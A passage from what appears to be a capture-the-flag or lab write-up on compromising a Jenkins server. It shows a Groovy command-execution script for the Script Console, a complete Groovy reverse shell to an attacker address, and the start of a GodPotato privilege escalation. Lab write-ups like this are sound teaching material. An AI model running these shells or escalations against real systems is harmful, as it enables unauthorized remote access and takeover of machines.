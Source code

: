 This is Jenkins Automation server  so we are gonna execute a script from script console also we can get more information  about the server from **Manage Jenkins** page

**Manage Jenkins > Script Console** 

```groovy
def cmd = 'whoami'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

Let’s change the command to reverse shell command we can find such a reverse shell command from [Reverse Shell CheatSheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#ognl)

```groovy
String host="10.10.14.2";
int port=50000;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Now we have a shell:

![image.png](image%206.png)

## Privilege Escalation

I checked for my privileges and we have SeImpersonatePrivilege

![image.png](image%207.png)

Running `systeminfo` command we see:

![image.png](image%208.png)


-  [**GodPotato**](https://github.com/BeichenDream/GodPotato)

Let’s try to perform GodPotato attack. For that we need to determine the .NET version in use:

```powershell
reg query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP" /s 
```

![image.png](image%209.png)

I tried to transfer files using certutil but for some reason it didn’t find it so I used SMB for this purpose:
